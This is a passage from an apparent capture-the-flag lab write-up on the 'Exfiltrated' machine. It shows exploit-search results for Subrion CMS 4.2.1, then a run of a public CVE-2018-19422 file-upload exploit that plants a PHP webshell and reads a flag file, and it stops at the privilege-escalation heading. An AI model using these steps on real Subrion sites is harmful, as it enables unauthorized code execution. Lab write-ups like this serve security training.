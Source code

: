 ```
Subrion CMS 4.2.1 - Arbitrary File Upload                                                     | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add Amin)                              | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                                                      | php/webapps/45150.txt
Subrion CMS 4.2.1 - Stored Cross-Site Scripting (XSS)                                         | php/webapps/51110.txt
---------------------------------------------------------------------------------------------- ---------------------------------
```


So there is File Upload vuln, maybe we can use it.


![image](../contentImages/exfiltrated/6.png)

After reading and visiting the site here, indeed, this is version 4.2.1 which should be vulnerable.

![image](../contentImages/exfiltrated/7.png)


So I added the member with admin:admin (to be sure) then executed the cve

```
┌──(hosan㉿kali)-[~/pg/exfiltrated/CVE-2018-19422-SubrionCMS-RCE]
└─$ python3 SubrionRCE.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://exfiltrated.offsec/panel/
[+] Success!
[+] Got CSRF token: c1MUFsfy6KZ6qep36fZitvhrocirAdSW8mf8fOcL
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: qltfwzcbozjgzkw

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://exfiltrated.offsec/panel/uploads/qltfwzcbozjgzkw.phar 

$ ls /home
coaran

$ cat /home/coaran/local.txt
aaaa1896196e4b2544127cb5a58e4978

$ 
```
That's it for initial foothold

## 3. Privesc 
